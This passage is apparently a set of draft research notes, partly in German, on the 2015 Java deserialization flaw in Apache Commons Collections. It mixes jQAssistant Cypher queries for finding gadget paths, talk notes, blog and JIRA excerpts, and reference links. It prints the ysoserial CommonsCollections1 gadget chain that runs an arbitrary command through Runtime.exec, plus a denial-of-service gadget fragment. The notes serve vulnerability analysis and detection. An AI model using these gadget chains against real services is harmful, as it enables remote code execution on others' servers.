----

Aufruf der Methode `Method.invoke`: (258 Aufrufe)

[source,cypher]
----
MATCH (:Class {fqn:"java.lang.reflect.Method"})-[:DECLARES]->(m:Method {name:"invoke"})
RETURN size(()-[:INVOKES]->(m)) as invocations;
----

Jetzt müssen wir nur noch den transitiven Aufruf darstellen, der von `readObject` zu `invoke` über viele Schritte erfolgen kann:

[source,cypher]
----
MATCH (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]->(serialized:Class)-[:DECLARES]->(readObject:Method {name:"readObject"})
MATCH (:Class {fqn:"java.lang.reflect.Method"})-[:DECLARES]->(invoke:Method {name:"invoke"})

MATCH path = shortestPath((readObject)-[:INVOKES|:OVERRIDDEN_BY*]->(invoke)) 

RETURN serialized,path
ORDER BY length(path) ASC LIMIT 10;
----

Hier kann man einen der vielen Pfade sehen, die potentiell eine Gefährdung darstellen, 
den betroffenen Quellcode muss man sich noch einmal im Detail anschauen.

image::jqassistant_deserialize_vulnerability_example1.jpg[]

== Referenzen

* Vortrag von Chris Frohoff und Gabriel Lawrence bei AppSecCali2015:
** Überblick http://frohoff.github.io/appseccali-marshalling-pickles/ 
** Slides http://de.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles
** Tool ysoserial: https://github.com/frohoff/ysoserial

* Vortrag von Matthias Kaiser,
** Slides: http://de.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478 
** Video: https://www.youtube.com/watch?v=VviY3O-euVQ
* Steve Breen: Apache Commons Vulnerability, Nov 6, 2015: 
** http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
* Benedikt Ritter, CodeCentric: Hintergründe zum Geschehen:
** https://blog.codecentric.de/en/2015/11/comment-on-the-so-called-security-vulnerability-in-apache-commons-collections/
* Statement Apache Foundation: 
** https://blogs.apache.org/foundation/entry/apache_commons_statement_to_widespread
* Detaillierter InfoQ Artikel:
** http://www.infoq.com/news/2015/11/commons-exploit
* Java-Agent zur Beschränkung zu deserialiserender Klassen - Eirik Bjørsnøs: 
** http://www.infoq.com/news/2015/11/commons-exploit
* Apache Commons Collections 
** JIRA issue: https://issues.apache.org/jira/browse/COLLECTIONS-580
* US-Cert Vulnerability Notice: 
** http://www.kb.cert.org/vuls/id/576313 Nov 13
* Spring Tracker: 
** https://jira.spring.io/browse/SPR-13656
* Oracle Security Notice:
** http://www.oracle.com/technetwork/topics/security/alert-cve-2015-4852-2763333.html
* IBM Security Notice:
** http://www-01.ibm.com/support/docview.wss?uid=swg21970575
* RedHat Tracker: 
** https://access.redhat.com/solutions/2045023
* Jenkins Bugfix: 
** https://jenkins-ci.org/content/mitigating-unauthenticated-remote-code-execution-0-day-jenkins-cli
* Issue in Groovy 2.4.3:
** https://srcclr.com/catalog/vulnerabilities/1710

* http://www.zdnet.com/article/java-unserialize-remote-code-execution-hole-hits-commons-collections-jboss-websphere-weblogic/[ZD-Net]
* http://www.infoworld.com/article/3003197/security/library-misuse-exposes-leading-java-platforms-to-attack.html[Info-World]

Um die beiden Enden der Kette herauszufinden.

== Vortrag an der Ruhr Uni Bochum, Matthias Kaiser von Code White Ulm

* new bug class
* dedicated bug class on its own
* few disclosed
* vulnerabilities easy to spot?
* have to have the right classes on the classpath
* no sandbox on he server side
* serialization spec / protocol (from oracle)
* X-Stream is also affected by the attack vector

serialization: object state -> byte stream -> convert back

example serialization: Person(name, bdate)
serialVersionUID !!

"ac ed" magic number java-serialization
traverse through the tree / graph of objects and write out primitive values
+ override methods like writeReplace (replaces the object which should be serialized) writeObject (control what goes into the stream), readResolve ( replace deserialized object), readObject (full control)?

Cookies, RMI, JMX, JMS

OIS doesn't check anything, no checks, no white- / blacklists
only CNFE *after* deserialization
if classes do things in readObject / readResolve then it can be abused (esp. interesting things)

Vulnerability in Apache File Upload

DiskFile.repository can be overriden in the serialized object to point to a path on disk (is used for directory) end your "custom" target in "repository" variable with 0x0 and the rest is cut off.
The data from the stream goes into that file.

Needs null-byte vulnerability patched in Java 7u40 and Java8

How to find such vunerabilities?

Check which classes in your class path call OIS.readObject() 
for each of those check what they do with the read object

Existing Exploits

Spring Framework 2015 <= 3.0.5
Groovy 2015 <= 2.4.4
Apache Commons Collections <=

ysoserial tool to generate a serialized object representation with a given payload

Gabriel and Chris

TransformedMap to execute methods via reflection
-> "crazy"

sun...InvocationHandler (deserializable)

decorate a map with a Key-Transformer and Value-Transformer -> TransformedMap
whenever something is stored in the map
different Transformer implementations
one is an InvocationTransformer

Show Code-Snippets from TransformFactory, InvokerTransformer
from TransformedMap.Map.Entry -> setValue -> checkSetValue

interface Transformer.transform(Object)->Object

ChainTransfomer
InvokerTransformer

need to have a readObject() method which calls Map.Entry.setValue()
Found in sun.reflect.AnnotationInvocationHandler which is serializable -> http://grepcode.com/file/repository.grepcode.com/java/root/jdk/openjdk/6-b27/sun/reflect/annotation/AnnotationInvocationHandler.java
http://grepcode.com/file/repository.grepcode.com/java/root/jdk/openjdk/6-b27/sun/reflect/annotation/AnnotationInvocationHandler.java#AnnotationInvocationHandler.readObject%28java.io.ObjectInputStream%29

has a map of annotations and resolves them in readObject -> todo read through details
we have to replace it's memberValues map with our transformed map

Use @Target as "type" for the AnnotationInvocationHandler
then the memberValues has a field "value" (from annotation) -> ElementType[]
our provide value in our TransformedMap is "not an instance of ElementType[]" , so it triggers the "override" of the Map-Value to be a AnnotationTypeMismatchExceptionProxy which triggers our transformer

TransfomedMap("value","foo") -> call protected constructor of AnnotationInvocationHandler -> serialize to OOS

How to find such exploits, find serializable InvocationHandlers that are called

RMI/JRMI, Spring Http Invoker, JMX, JMS

You can do soemthing simple like killing the application (System.exit(0)), or have it issue requests somewhere.

Usually you get the effect, but also a class-cast exception as the payload you send is not what the app expected.

readObject is a new bug class -> very few exploits so far

// end notes from Matthias Kaiser

== content from Steve Breen's blog post

Object serialization technologies allow programs to easily convert in-memory objects to and from various binary and textual data formats for storage or transfer – but with great power comes great responsibility, because deserializing objects from untrusted data can ruin your day. We will look at historical and modern vulnerabilities across different languages and serialization technologies, including Python, Ruby, and Java, and show how to exploit these issues to achieve code execution. 

!! We will also cover some strategies to protect applications from these types of attacks.

tools: https://github.com/frohoff/ysoserial

ysoserial is a collection of utilities and property-oriented programming "gadget chains" discovered in common java libraries that can, under the right conditions, exploit Java applications performing unsafe deserialization of objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes this data, the chain will automatically be invoked and cause the command to be executed on the application host.

No easy fix
Furthermore it is important to understand that replacing or removing Apache Commons Collections from your application or application server is unlikely to make it safer. This is because the attack described by Lawrence and Frohoff can also use classes from other popular libraries like the Spring Framework or Groovy. There is even a class in the JDK that can be used for this attack (com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl). This is bad because “Apache Commons Collections is unsafe” is so much easier an explanation than “an application is unsafe if it uses Java Serialization in an unsafe way”. It’s no fix where you replace the old version of a library with a new version and everything is good. Instead one has to review application code and decide whether is is safe or not.

The attack explained
First of all, let me give you an idea about the attack vector described by Lawrence and Frohoff:
The attacker creates a Map and decorates it with a TransformedMap. He then adds a special implementation of the Transformers interface which use reflection to transform values (see InvokerTransformer) and instruments it to use reflection to call, for example Runtime.exec(String). The map is then sent via Java Serialization to the target of the attack. Since in Java Serialization the type of the object being send is also referenced in the binary stream, the target will create new objects from the data in the stream using the classes also included in the stream. If code accesses the deserialized map, the InvokerTransformer will be called and the attack succeeds. This is what security experts call a “gadget chain”.

So far, so good. Let’s recap which conditions an application (*) has to meet in order to be vulnerable to this attack:

Apache Commons Collections in the classpath – otherwise deserialization would fail
exposes an endpoint that takes binary data and creates objects without checking their type first
lets untrustworthy parties access the endpoint without authorization
Again, it’s important to understand that an application isn’t vulnerable because it uses Apache Commons Collections or any of the other libraries that allow for creating similar gadget chains. Applications are vulnerable because they’re deserializing untrusted data without further checking. Because this is so negligent Lawrence and Frohoff didn’t bother to report this directly to the Apache Commons project. Nevertheless the Apache Commons Project has already released a bugfix for Apache Commons Collections 3.x that has deserialization for the InvokerTransformer disabled by default (it can be reactivated explicitly using a system property).
Furthermore, there is a discussion about adding a SafeObjectInputStream to Apache Commons IO that let’s you specify classes that may be deserialized, if you really need to use Java Serialization to communicate with remotes. All other classes will be rejected before deserialization.

In January 2015, at AppSec California 2015, researchers Gabriel Lawrence and Chris Frohoff described how many Java applications and libraries using Java Object Serialization may be vulnerable to insecure deserialization of data, which may result in arbitrary code execution. Any Java library or application that utilizes this functionality incorrectly may be impacted by this vulnerability.

In November 2015, Stephen Breen of Foxglove Security identified the Apache Commons Collections (ACC) Java library as being vulnerable to insecure deserialization of data; specifically, the ACC InvokerTransformer class may allow arbitrary code execution when used to deserialize data from untrusted sources. This issue affects several large projects that utilize ACC including WebSphere, JBoss, Jenkins, WebLogic, and OpenNMS.

Both versions 3.2.1 and 4.0 of the Apache Commons Collections library have been identified as being vulnerable to this deserialization issue.

Unserialize vulnerabilities are a vulnerability class. Most programming languages provide built-in ways for users to output application data to disk or stream it over the network. The process of converting application data to another format (usually binary) suitable for transportation is called serialization. The process of reading data back in after it has been serialized is called unserialization.

Vulnerabilities arise when developers write code that accepts serialized data from users and attempt to unserialize it for use in the program. Depending on the language, this can lead to all sorts of consequences, but most interesting, and the one we will talk about here is remote code execution.

import java.io.ObjectInputStream;
import java.io.FileInputStream;
import java.io.ObjectOutputStream;
import java.io.FileOutputStream;
 
public class SerializeTest{
    public static void main(String args[]) throws Exception{
        //This is the object we're going to serialize.
        String name = "bob";
 
        //We'll write the serialized data to a file "name.ser"
        FileOutputStream fos = new FileOutputStream("name.ser");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        os.writeObject(name);
        os.close();
 
        //Read the serialized data back in from the file "name.ser"
        FileInputStream fis = new FileInputStream("name.ser");
        ObjectInputStream ois = new ObjectInputStream(fis);
 
        //Read the object from the data stream, and convert it back to a String
        String nameFromDisk = (String)ois.readObject();
 
        //Print the result.
        System.out.println(nameFromDisk);
        ois.close();
    }
}
The above code simply writes the String “bob” to disk using Java’s serializable interface, then reads it back in and prints the result. The following shows the output from running this code:

breens@us-l-breens:~/Desktop/SerialTest$ java SerializeTest
bob
breens@us-l-breens:~/Desktop/SerialTest$ xxd name.ser
0000000: aced 0005 7400 0362 6f62 ....t..bob
Notice the file on disk “name.ser” is binary, it has some non-printable characters. In particular the bytes “aced 0005” – these are the “magic bytes” you’ll see at the beginning of any Java serialized object.

Not particularly exciting, but a good demonstration of the basics of Java object serialization.

Matthias Kaiser Deep Dive: https://www.youtube.com/watch?v=VviY3O-euVQ

payload generator: https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java

public InvocationHandler getObject(final String command) throws Exception {
    final String[] execArgs = new String[] { command };
    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]{ new ConstantTransformer(1) });
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                String.class, Class[].class }, new Object[] {
                "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {
                Object.class, Object[].class }, new Object[] {
                null, new Object[0] }),
            new InvokerTransformer("exec",
                new Class[] { String.class }, execArgs),
            new ConstantTransformer(1) };
 
    final Map innerMap = new HashMap();
 
    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
 
    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
 
    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
 
    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain    
             
    return handler;
}

== comments from ACC JIRA Issue

JIRA Issue:

With InvokerTransformer serializable collections can be build that execute arbitrary Java code. sun.reflect.annotation.AnnotationInvocationHandler#readObject invokes #entrySet and #get on a deserialized collection. If you have an endpoint that accepts serialized Java objects (JMX, RMI, remote EJB, ...) you can combine the two to create arbitrary remote code execution vulnerability.
I don't know of a good fix short of removing InvokerTransformer or making it not Serializable. Both probably break existing applications.
This is not my research, but has been discovered by other people.
https://github.com/frohoff/ysoserial
http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/

Indeed, I was thinking about that as well. The point is that within the same application it does not make sense to allow serialization when de-serialization will certainly fail.
This will allow people to spot regressions earlier when using the updated jar with serialization disabled.
Furthermore, as mentioned by Chris Frohoff on the mailinglist, the following classes might be unsecure as well:
InstantiateFactory
InstantiateTransformer
PrototypeFactory
I think PrototypeFactory is safe: it calls clone on an object that has been de-serialized already, but for the other 2 I am not sure. Basically they allow an attacker to call an arbitrary public constructor of any class in the application's classpath. There might be a possible attack vector for it, although none is known atm.
If we add the same fix there as well, I would also suggest to change the property to enable the serialization to that: "org.apache.commons.collections.enableUnsafeSerialization"

released 3.2.2

discussion only have security fix in 3.2.2 or also other bugfixes (might lead to people not adopting the fix)
no re-release to maven central (not that it would be possible)

I think that whatever is done with InvokerTransformer should also be done with InstantiationTransformer (and the various related Factories and Closures and such). There are classes that do unsafe things in their constructors. For that matter, there may be classes that do unsafe things in their toStrings.

There are also other vulnerable classes that allow an attacker to create a quite simple DOS attack.
A gadget like that will result in an infinite loop:
final Transformer[] transformers = new Transformer[] {
	new ConstantTransformer(Runtime.class),
	new ClosureTransformer(
	        new WhileClosure(TruePredicate.INSTANCE,
                new TransformerClosure(CloneTransformer.INSTANCE), false)),

== Finding vulnerabilities with JQA

match (t:Type) where t.fqn =~ "org.apache.commons.collection.*"
match (m:Method)<-[:DECLARES]-(t:Type)-[:EXTENDS|IMPLEMENTS]->(t0)-[:DECLARES]->(m0)
where m.name = m0.name
merge (m)<-[:OVERRIDDEN_BY]-(m0)
return count(*);

match (c:Class {fqn:"java.lang.reflect.Method"})-[:DECLARES]->(m:Method) where m.name ="invoke" return m.name,id(m); -> id: 1319

match (m:Method) where id(m) = 1319 return m,size((m)<-[:INVOKES]-()) as invocations; -> 258 invocations

match (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]->(t) return count(*); -> 20932

match (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]->(t)-[:DECLARES]->(m:Method {name:"readObject"}) return count(*); -> 393

match (m:Method)<-[:INVOKES]-()<-[:DECLARES]-(t) where id(m) = 1319 and t.fqn =~ "org.apache.*" eturn distinct t;

match (m:Method)<-[:INVOKES]-()<-[:DECLARES]-(t) where id(m) = 1319 and t.fqn =~ "org.apache.*" return distinct t.name; ->
IteratorUtils
InvokerTransformer
PrototypeFactory$PrototypeCloneFactory

MATCH path=(t:Type {name:"AbstractInputCheckedMapDecorator$MapEntry"})-[:DECLARES]->
(:Method {name:"setValue"})-[:INVOKES]->(:Method {name:"checkSetValue"})-[:OVERRIDDEN_BY]->(:Method {name:"checkSetValue"})-[:INVOKES]->
(t0:Method {name:"transform"})-[:OVERRIDDEN_BY]->(t1:Method {name:"transform"})-[:INVOKES]->(:Method {name:"invoke"})
RETURN path, [x in nodes(p) WHERE x:Method | (x)<-[:DECLARES]-()];

MATCH 
p1=(:Type {name:"AnnotationInvocationHandler"})-[:DECLARES]->(:Method {name:"readObject"})-[:INVOKES]->(:Method {name:"setValue"})<-[:OVERRIDDEN_BY*]-(setValue),
p2 = (:Type {name:"AbstractInputCheckedMapDecorator$MapEntry"})-[:DECLARES]->
(setValue:Method {name:"setValue"})-[:INVOKES]->(:Method {name:"checkSetValue"})<-[:OVERRIDDEN_BY]-(:Method {name:"checkSetValue"})-[:INVOKES]->
(t0:Method {name:"transform"})<-[:OVERRIDDEN_BY]-(t1:Method {name:"transform"})-[:INVOKES]->(:Method {name:"invoke"})
RETURN p1,p2, [x in nodes(p1) + nodes(p2) WHERE x:Method | (x)<-[:DECLARES]-()];

match (invoke:Method) where id(invoke) = 1319
match (t1:Type {name:"AbstractInputCheckedMapDecorator$MapEntry"})-[:DECLARES]->(m:Method {name:"setValue"}) 
match (t2:Type {name:"InvokerTransformer"})-[:DECLARES]->(transform:Method {name:"transform"})
match (t3:Type {name:"Transformer"})-[:DECLARES]->(transform0:Method {name:"transform"}) 
match p1=allShortestPaths((m)-[:INVOKES|:OVERRIDDEN_BY*..5]-(transform0))
where none(n in nodes(p1) WHERE n.name IN ["Object","Map$Entry"])
match p2=shortestPath((transform)-[:INVOKES*..5]->(invoke))
return p1,p2

profile 
match (invoke:Method) where id(invoke) = 1319
match (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]->(t:Class)-[:DECLARES]->(m:Method {name:"readObject"})-[:INVOKES*]->(invoke) return count(*); -> 271

profile 
match (invoke:Method) where id(invoke) = 1319
match (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]->(t:Class)-[:DECLARES]->(m:Method {name:"readObject"})
match path = shortestPath((m)-[:INVOKES*]->(invoke)) 
where none(n in nodes(path) WHERE n:Method and n.name IN ["invokeReadResolve","getUI"])
return t,path,[n in nodes(path) | (n)<-[:DECLARES]-()];

-> none

match (invoke:Method) where id(invoke) = 1319
match (tInvoke)-[:DECLARES]->(m)-[:INVOKES*]->(invoke)
WITH tInvoke.name, m.name, count(*)
REUTRN count(*);

match (invoke:Method) where id(invoke) = 1319
match (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]->(t:Class)-[:DECLARES]->(m:Method {name:"readObject"})
match path = shortestPath((m)-[:INVOKES|:OVERRIDDEN_BY*]->(invoke)) 
where none(n in nodes(path) WHERE n:Method and n.name IN ["invokeReadResolve","getUI"])
return t,path,[n in nodes(path) | (n)<-[:DECLARES]-()]
ORDER BY length(path) ASC skip 9 LIMIT 1;

match (t:Type {name:"AnnotationInvocationHandler"})-[:DECLARES]->(m:Method {name:"readObject"})-[:INVOKES]->(m2:Method {name:"setValue"})<-[:DECLARES]-(t2:Type)
return t,m,m2,t2

match (t:Type {name:"AnnotationInvocationHandler"})-[:DECLARES]->(m:Method {name:"readObject"})-[:INVOKES]->(m2:Method {name:"setValue"})<-[:DECLARES]-(t2:Type)<-[:EXTENDS|:IMPLEMENTS*]-(t3)
return t,m,m2,t2,t3

match (t:Type {name:"AnnotationInvocationHandler"})-[:DECLARES]->(m:Method {name:"readObject"})-[:INVOKES]->(m2:Method {name:"setValue"})<-[:DECLARES]-(t2:Type)<-[:EXTENDS|:IMPLEMENTS*]-(t3)-[:DECLARES]->(m3)
where m3.name = m2.name
return distinct t3.name

match (invoke:Method) where id(invoke) = 1319
match (t:Type {name:"AbstractInputCheckedMapDecorator$MapEntry"})-[:DECLARES]->(m:Method {name:"setValue"}) 
match p = shortestPath((m)-[*]->(invoke))
return p

== More links

NetApp: https://kb.netapp.com/support/index?page=content&id=9010052
Softpedia: http://news.softpedia.com/news/the-vulnerability-that-will-rock-the-entire-java-world-495840.shtml

== Text from Softpedia

Mr. Breen was able to use the RCE vulnerability and exploit applications where the Commons Collections was used, apps like WebLogic, IBM WebSphere, JBoss, Jenkins, and OpenNMS. Of course, other applications that use the Commons Collections library can also be potentially vulnerable to remote attacks, not just the ones tested by Mr. Breen, and the only condition is that the app accepts user-supplied serialized data.

We were corrected by Mr. Frohoff who said the vulnerability is in how developers treat user-supplied serialized data, and not the library itself.

Besides providing an exploit that can go with Chris Frohoff's proof-of-concept payload generator, the good news is that Mr. Breen also provided a fix for any applications that might have this issue.

== Statement der Apache Foundation:

 It is not Apache Commons Collections that is unsafe, it is applications which use Java Serialization in an unsafe way.

 If anybody asks you whether an application is unsafe because of Apache Commons Collections, explain to them that deserializing untrusted data is unsafe, not the presence of generally useful libraries.

Because the vulnerability is quite hard to understand, despite the researchers' best efforts, the issue went unnoticed for almost the entire year.

A recent talk given by Matthias Kaiser on the same topic (video below) has brought the issue back to light and spurned Steve Breen from Foxglove Security to investigate it even further in a blog post that contains all the details you'll need to successfully exploit it in various scenarios.
////